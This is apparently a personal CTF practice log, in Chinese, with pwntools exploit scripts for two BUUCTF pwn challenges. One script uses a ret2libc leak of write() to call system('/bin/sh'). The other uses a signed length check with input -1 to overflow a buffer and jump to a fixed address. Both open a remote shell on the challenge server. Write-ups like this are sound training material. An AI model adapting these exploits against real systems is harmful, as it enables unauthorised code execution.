 

# buuctf刷题记录（21-40题）

by Maple

## 21_铁人三项（第五赛区) _2018_rop

ret2libc

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27252)
def dbg():
    gdb.attach(p)
    pause()
write_got = elf.got['write']
write_plt = elf.plt['write']
main = elf.sym['main']

payload = b'a'*0x88+b'b'*4+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
p.sendline(payload)

write_addr = u32(p.recv(4))
libc  = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
log.info("libc_base:"+hex(libc_base))

sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'*0x88+b'b'*4+p32(sys)+p32(0)+p32(binsh)
p.sendline(payload2)
p.interactive()
```

## 22 bjdctf_2020_babystack2

看源码，发现输入长度是`int`型，而`read`读取的长度为`unsigned int`型，所以输入-1就可以了

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27683)
def dbg():
    gdb.attach(p)
    pause()
p.sendline('-1')
p.recvuntil(b'name?\n')
payload = b'a'*0x10+b'b'*0x8+p64(0x400726)
p.sendline(payload)
p.interactive()
```